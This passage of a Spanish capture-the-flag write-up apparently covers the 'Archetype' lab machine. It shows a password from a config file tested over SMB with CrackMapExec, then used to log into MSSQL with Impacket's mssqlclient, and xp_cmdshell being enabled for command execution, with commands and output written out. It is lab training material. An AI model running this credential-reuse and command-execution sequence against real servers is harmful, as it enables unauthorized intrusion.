 ```xml
</DTSConfiguration>#  
```

Quise verificar si la contraseña me serviría para algún tipo de autenticación, para ello hice uso de "CrackMapExec".

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ crackmapexec smb 10.10.10.27 -u 'ARCHETYPE' -p 'M3g4c0rp123' 
SMB         10.10.10.27     445    ARCHETYPE        [*] Windows Server 2019 Standard 17763 (name:ARCHETYPE) (domain:Archetype) (signing:False) (SMBv1:True)
SMB         10.10.10.27     445    ARCHETYPE        [+] Archetype\ARCHETYPE:M3g4c0rp123
```

Viendo que el archivo es DTS y tenía código XML pensé en que la contraseña podía ser de una base de datos, para ello hice uso de la herramienta mssqlclient para ver si tenía acceso de autenticación.

```python
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

Y efectivamente accedí, tenía la capacidad de ejecutar comandos gracias a la utilidad xp_cmdshell.

```python
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> EXEC sp_configuration 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
```
